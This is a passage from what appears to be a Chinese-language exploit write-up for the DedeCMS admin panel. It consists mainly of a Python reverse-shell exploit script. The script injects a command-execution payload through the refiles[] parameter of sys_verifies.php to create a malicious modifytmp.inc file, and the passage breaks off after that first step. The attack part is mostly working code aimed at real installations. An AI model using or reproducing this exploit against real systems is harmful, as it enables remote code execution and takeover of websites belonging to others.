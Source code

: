 ```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: 43

action=down&curfile=1
```



![image-20250528084804482](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505280848716.png)



### 反弹shell_EXP

```python
#!/usr/bin/env python3
import requests
import urllib.parse
import argparse
import sys

def exploit(target_url, cookie_string, reverse_shell_command):
    # Ensure target URL has correct format
    if not target_url.startswith("http"):
        target_url = "http://" + target_url
    if target_url.endswith("/"):
        target_url = target_url[:-1]
    
    # Parse cookies from string
    cookies = {}
    if cookie_string:
        for item in cookie_string.split(';'):
            if item.strip():
                key, value = item.split('=', 1)
                cookies[key.strip()] = value.strip()
    
    # URL encode the command for the payload
    encoded_command = urllib.parse.quote(reverse_shell_command)
    
    # Create the malicious payload
    payload = f"xxx${{${{print%20`{encoded_command}`}}}}"
    
    # Headers
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.3,en;q=0.2",
        "Referer": f"{target_url}/dede/sys_verifies.php?action=update",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }
    
    print("[*] Sending malicious payload to create modifytmp.inc...")
    
    # Step 1: Create the malicious file
    try:
        create_url = f"{target_url}/dede/sys_verifies.php?action=getfiles&refiles[]={payload}"
        response = requests.get(create_url, cookies=cookies, headers=headers, timeout=10)
        
        if response.status_code == 200:
            print("[+] Payload sent successfully!")
        else:
            print(f"[-] Failed to send payload. Status code: {response.status_code}")
            return False
```